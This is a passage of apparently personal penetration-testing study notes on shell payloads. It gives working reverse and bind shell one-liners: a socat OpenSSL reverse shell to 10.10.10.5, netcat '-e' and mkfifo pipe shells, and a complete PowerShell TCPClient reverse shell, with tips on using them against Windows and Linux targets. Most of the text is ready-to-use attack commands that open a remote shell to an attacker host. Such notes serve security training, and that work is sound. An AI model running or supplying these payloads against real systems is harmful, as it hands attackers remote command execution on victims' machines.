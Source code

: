 ```
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,san
```
* Certificate must be used with listener even for a Windows target host.
  * Copying PEM file across for bind shell is required.
* Technique will work with special Linux-only TTY shell covered previously.

## Common Shell Payloads
* Some versions of netcat include `-e` option.
  * `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`.
  * `netcat-traditional` version used in Kali.
* Allows execution of a process on connection.    
* Create bind shell listener on target host for attack host to connect to.
  * Not included in most versions of netcat as widely seen to be very insecure.
```
nc -lvnp <PORT> -e /bin/bash
```
* Send reverse shell to listener on attack host.
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```
* Technique will work perfectly on Windows where static binaries are nearly always required.
* Create listener for bind shell on Linux.
```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
> The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the `stderr` output stream into `stdout`, and sending `stdout` itself into the input of the named pipe, thus completing the circle.
* Send a netcat reverse shell.
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
* Very common to require Powershell reverse shell when targeting modern Windows Server target hosts.
* Command is very convoluted but is extremely useful one-liner to keep on hand.
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
* Replace `<IP>` and `<port>` with appropriate IP and choice of port.
* Can be copied into cmd.exe shell or another method of executing commands on a Windows server and executed resulting in a reverse shell:
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes in many different languages. 
